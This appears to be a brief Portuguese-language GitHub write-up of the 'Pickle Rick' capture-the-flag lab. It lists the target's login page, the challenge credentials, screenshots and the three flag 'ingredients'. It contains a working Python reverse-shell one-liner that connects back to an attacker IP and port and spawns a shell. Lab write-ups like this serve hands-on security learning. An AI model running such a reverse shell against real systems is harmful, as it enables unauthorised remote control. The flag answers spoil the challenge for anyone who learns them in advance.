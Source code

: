 # HackerMindSet

Tentando fazer o Pickle Rick:


IP = 10.10.244.103


![fds](https://github.com/user-attachments/assets/8e80809f-2319-4c01-98f8-ba822ad725c4)



http://10.10.244.103/

http://10.10.244.103/login.php

![Screenshot_1](https://github.com/user-attachments/assets/0edcef3b-cb38-4af0-b674-54c704a9ad98)

Username: R1ckRul3s

Password:Wubbalubbadubdub

![Screenshot_2](https://github.com/user-attachments/assets/37566f13-79b6-4793-9c5a-4d9eadc991e9)

primereiro ingrediente: mr. meeseek hair

![Screenshot_3](https://github.com/user-attachments/assets/96434c69-f95a-4292-8da8-4a799d5699b9)

#FAZER REVERSE SHELL
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.14.59",6969));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' - (NÃO COLOCAR EM UM PROGRAMA)

![Screenshot_4](https://github.com/user-attachments/assets/1bbaac53-52db-4c9a-8d33-bd61a8a97dfa)

segundo ingrediente: 1 jerry tear


terceiro ingrediente: fleeb juice

#FINALIZADO

![Screenshot_5](https://github.com/user-attachments/assets/848c8128-5e50-44ff-9e50-d87e66a6b3a3)


